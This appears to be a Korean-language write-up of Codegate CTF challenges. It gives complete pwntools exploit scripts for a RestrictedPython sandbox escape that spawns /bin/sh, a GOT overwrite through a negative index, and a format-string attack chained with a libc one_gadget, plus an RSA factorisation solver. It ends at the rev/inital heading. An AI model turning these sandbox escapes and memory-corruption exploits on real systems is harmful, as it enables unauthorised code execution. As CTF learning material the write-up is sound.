 ### shielder(조수호) 

1. misc/Hello Codegate
2. misc/Captcha World
3. misc/safePythonExecutor
4. pwn/What's Happening?
5. pwn/Magic Palette
6. crypto/Encrypted flag
7. rev/inital
8. rev/C0D3Matr1x
9. web/Ping Tester

---
## misc/Hello Codegate

디코 `notice` 채널에 플래그가 나와있다.

---
## misc/Captcha World

캡챠를 입력해야 한다. 근데 10번만 하면 되기 때문에 그냥 직접 입력해주면 된다.

---
## misc/safePythonExecutor

중요한 것은 `RestrictedPython==6.1`이다. CVE를 찾아보니 format, format_map, formatter 쪽에 필터링 실패 취약점이 있다고 한다.

https://github.com/nikosChalk/ctf-writeups/blob/master/uiuctf23/pyjail/rattler-read/writeup/README.md

위의 라업 논리를 그대로 따라가면 똑같은 방법으로 풀 수 있다.

### exploit.py

```python
from pwn import *

p = remote('3.35.196.167', 42424)
#p = process(['python3', 'prob.py'])

#dt = '''string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")'''
dt = '''
class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); 
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
'''.replace('\n', '\r')
p.sendlineafter(b': ', dt)
p.send(b'\n')
p.interactive()
```

---
## pwn/What's Happening?

pie가 꺼져 있다. Partial RELRO이다. 행성 정보 업데이트를 하는데 음수 인덱스를 안 막아 놨다. 그래서 got overwrite가 된다. puts got을 win 함수로 덮으면 된다. system got이 망가지긴 하는데, pie가 꺼져 있어서 그냥 다시 입력 해주면 된다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./prob')
p = remote('3.37.174.221', 33333)
e = ELF('./prob')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'-3')
p.sendlineafter(b': ', p64(e.sym['win']) + b'a' * 8 + p64(0x401080))
p.sendlineafter(b': ', b'0')
#gdb.attach(p)
p.sendlineafter(b': ', b'0')
p.interactive()
```

---

## pwn/Magic Palette

`print_palette`에서 입력 때 조건을 좀 맞춰주면 `FSB`가 터진다. `k`라는 바이트를 출력하고 싶으면 `k + b'\x80'`을 입력해주면 된다. `FSB`가 무제한이므로 릭은 얼마든지 할 수 있다.
원가젯은
```
0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

이걸 쓰고, r12를 0으로 만들어줬다. `FSB`로 `printf` 내부 스택 프레임의 `pop r12`와 ret 부분에 덮어줘서 해결했다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

def rp(payload : bytes):
    p.sendlineafter(b'> ', b'1')
    for i in range(len(payload)):
        p.send(payload[i:i+1] + b'\x80')
    for i in range(len(payload), 64 * 64):
        p.send(b'\x00\x60')

def mc(x : int, y : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'x > ', str(x).encode())
    p.sendlineafter(b'y > ', str(x).encode())

def pp():
    p.sendlineafter(b'> ', b'3')
    return p.recvline()[:-1]

#p = process('./prob')
p = remote('43.203.137.197', 54321)
l = ELF('./libc.so.6')

num = 6 + (0x7ffc25f12bc0 - 0x7ffc25f11b80) // 8
payload = f'%{num}$p%{num+9}$p'
rp(payload.encode())

msg = pp()
mainrbp = int(msg[:14].decode(), 16)
l.address = int(msg[14:28].decode(), 16) - (0x7fea359d0d90 - 0x7fea359a7000)
print(hex(mainrbp))
print(hex(l.address))

# mainrbp = 0x7ffd93f7aff0
# r12 = 0x7ffd93f79e70
# ret = 0x7ffd93f79e88

og = l.address + 0xebd38
r12 = mainrbp + (0x7ffd93f79e70 - 0x7ffd93f7aff0)
ret = mainrbp + (0x7ffd93f79e88 - 0x7ffd93f7aff0)
payload = '%17$n%18$n'
payload += f'%{(og & ((1 << 16) - 1))}c'
payload += f'%19$hn'
payload += f'%{((og >> 16) & ((1 << 16) - 1)) - (og & ((1 << 16) - 1)) + 0x10000}c'
payload += f'%20$hn'
payload += 'a' * 4
print(hex(0x28 - len(payload)))
payload = payload.encode()
payload += p64(r12)
payload += p64(r12 + 4)
payload += p64(ret)
payload += p64(ret + 2)
mc(0, 0)
rp(payload)
#gdb.attach(p, f"b* {l.address + (0x7f8ac570c734 - 0x7f8ac5695000)}")
p.sendlineafter(b'> ', b'3')
p.interactive()
```

---
## crypto/Encrypted flag

`q = nextprime(p)` 관계이므로, sqrt(n)에서 nextprime 취해주면 금방 q를 구할 수 있다. p, q 구할 수 있으니까 끝났다.

### exploit.py

```python
from Crypto.Util.number import long_to_bytes
from sympy import nextprime
import gmpy2

n = 54756668623799501273661800933882720939597900879404357288428999230135977601404008182853528728891571108755011292680747299434740465591780820742049958146587060456010412555357258580332452401727868163734930952912198058084689974208638547280827744839358100210581026805806202017050750775163530268755846782825700533559
e = 65537
eflag = 7728462678531582833823897705285786444161591728459008932472145620845644046450565339835113761143563943610957661838221298240392904711373063097593852621109599751303613112679036572669474191827826084312984251873831287143585154570193022386338846894677372327190250188401045072251858178782348567776180411588467032159

p = gmpy2.iroot(n, 2)[0]
q = nextprime(p)
while n % q:
    q = nextprime(q)
print(q)

p = n // q
e = 65537

phi = (p - 1) * (q - 1)

d = gmpy2.invert(e, phi)

c = pow(eflag, d, n)

print(long_to_bytes(c))
```

---
## rev/inital

